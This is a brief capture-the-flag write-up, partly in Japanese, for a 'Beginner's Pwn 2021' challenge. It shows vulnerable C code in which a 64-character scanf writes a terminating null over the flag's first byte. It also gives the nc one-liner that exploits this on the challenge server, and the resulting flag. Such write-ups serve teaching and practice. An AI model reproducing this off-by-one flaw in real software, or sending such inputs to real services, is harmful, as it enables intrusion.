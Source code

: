 # Beginner's Pwn 2021  
```c
    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
```
64文字入力するとflagの先頭が0になる  
```
$ (python -c "print('\x00'*64)";cat) | nc 34.146.101.4 30007
```
flag: `TSGCTF{just_a_simple_off_by_one-chall_isnt_it}`  
